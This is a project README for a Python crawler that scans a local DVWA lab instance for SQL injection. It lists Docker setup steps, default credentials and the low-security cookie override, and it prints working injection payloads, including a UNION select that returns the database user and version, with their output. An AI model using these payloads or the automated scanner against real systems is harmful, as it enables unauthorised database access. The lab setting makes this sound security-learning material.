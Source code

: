 # demo-python-three

## description
search a 'remote' target hosting a **'damn vulnerable web application'** instance for an sql injection vulnerability

## installation / setup
```
> docker search dvwa
> docker pull citizenstig/dvwa
> docker images
> docker run -d -p 80:80 citizenstig/dvwa
```
yields a 'target host' at `http://localhost:80/`

optionally use..
```
> docker ps -a
> docker exec -it 8a021ce97f45 /bin/bash
> cd /var/www/html/
```
..for a rummage around the service's files

the compromise is only possible for a lowered security version of the site, configurable by insecure `security` cookie override `impossible` -> `low` post login

```
> waterfox 127.0.0.1/login.php
username: 'admin' / password: 'password'
> waterfox 127.0.0.1/vulnerabilities/sqli/index.php
S-f2 (mozilla developer bar) -> cookie set security low
```

## sql injection exploitation
confirmation of the vulnerability can be observed via the multiple return records visible following POST of the following `id`:
```
"-1 OR TRUE #"
```
returning:
```
ID: -1' OR TRUE #
First name: admin
Surname: admin

ID: -1' OR TRUE #
First name: Gordon
Surname: Brown

ID: -1' OR TRUE #
First name: Hack
Surname: Me

ID: -1' OR TRUE #
First name: Pablo
Surname: Picasso

ID: -1' OR TRUE #
First name: Bob
Surname: Smith
```

php's `mysql_query` filters multiple statements by default to make sql injection harder / less destructive ..but alas, composite select statements are still single statements, so via use of sql UNIONs arbitrary selects can be made ..although in this instance not easily recovered given the shape of the hard coded field selection criteria, limiting us to **'\*x2'** output dimensions

extracting the database version and user can be achieve by:
```
"-1' union select user(), @@version #"
```
yielding
```
ID: -1' union select user(), @@version #
First name: admin@localhost
Surname: 5.5.47-0ubuntu0.14.04.1
```

## automation: 'spider' - the crawler
python based crawler..

### usage
```
usage: spider.py [-h] [-s] [-p PORT] [-dr DELAY] [-v LEVEL] TARGET

Given a target host's root, 'spider' searches for basic sql injection
vulnerabilities and returns the database user and version where successful

positional arguments:
  TARGET                (master mode) base url to initialise crawl from |
                        (slave mode) host address of master to work for

optional arguments:
  -h, --help            show this help message and exit
  -s, --slave           run in slave mode, connecting to master at
                        'TARGET:10080'
  -p PORT, --port PORT  override the default port for listening (master mode),
                        or connecting (slave mode)
  -dr DELAY, --delay-requests DELAY
                        add a delay (ms) to the processing of each url
  -v LEVEL, --verbosity LEVEL
                        increase the level of information output
```

### example
```
> python ./spider.py localhost

[info] logging in at 'http://localhost/login.php'
[info] crawled site 'http://localhost' and found 12 urls with forms to test
[info] 1 sql injection vulnerability identified at:
url: 'http://localhost/vulnerabilities/sqli/'
data: 'version|5.5.47-0ubuntu0.14.04.1, user|admin@localhost'
```


### architectual framework components
#### user input
- provide target / root
- reset target cache
- node mode, server (default) / worker
#### node container
- scraping / parsing logic
- identify further urls
#### runner
- server, providing communication end-points to farm out available work
- output results
- block node operations while not logged in
- url pools, maps for processed / processing / to process, mutexes for access
#### storage
- user/node states, authenticate logon
- urls, semi-regularly synchronised with memory pools for recovery
- results, vulnerable urls
#### api
- get_scrape_url_next
- send_scraped_urls
#### unit test suite
- api handles
- mock vulnerable server with static form templates

### architectural design (C4 methodolody)
![architectural design](architecture.png)

## testing
```
> python src/tests.py
```

## todo
- state implementation
- restore / reset existing state cmdline and interactive options
- docstrings
- test suite
- track url_pools diffs for state sync
- crawl link subpaths for isolated (no linked) resources
- make result deduction template agnostic via pre / post exploit diff to
extract results from unknown DOM position
- custom credentials cmdline option
- support multiple credentials sets
- parse robots.txt for valid paths, etiquette abuse

## dependencies
- docker
- dvwa
- tornado
- pycurl
- libcurl
- beautifulsoup
- lxml
